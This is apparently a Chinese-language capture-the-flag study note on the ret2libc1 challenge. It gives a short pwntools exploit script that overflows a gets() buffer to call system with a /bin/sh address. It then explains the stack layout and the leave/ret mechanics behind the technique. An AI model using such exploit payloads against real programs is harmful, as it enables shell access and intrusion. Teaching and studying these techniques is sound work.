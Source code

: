 # 分析ret2libc1返回地址

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

'b'\*4是system执行完之后的返回地址，并不重要

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

如上是伪代码 在执行gets之后，分析gets的函数栈接近$ebp的边界情况

|  |  |
| :--- | :--- |
| $ebp0+8 |  |
| $ebp0+4 | 返回地址 |
| $ebp0 | 上一个函数的ebp |

esp的值是所在格子下沿到格子上沿

在gets完结的时候

leave: 将esp1 = ebp0 pop ebp1\(值为ebp0）

此时esp1指向返回地址（ebp0+4\)，ebp1已"归位" 然后jmp这个返回地址，并且pop掉， 此时esp1指向格子里的"$ebp0+8"

控制权给新函数 新函数将push ebp1\(到ebp0+4\) ebp2 = esp1\(值为ebp0+4\) 此时ebp2指向ebp0+4

开始正常执行新函数，调用system\(argv1\)，这个argv1通过ebp2+8寻找第一个argv1，就是ebp0+c的位置，所以中间的ebp+8空了，实际上是system调用会ret的地址

正常情况下是一个call会接一个ret 可是我们是ret到一个新函数，那么就导致没有新函数的返回地址被”call“过程压入，但是新函数还是会照常按照“约定”的返回地址的位置寻找到返回地址 进行返回

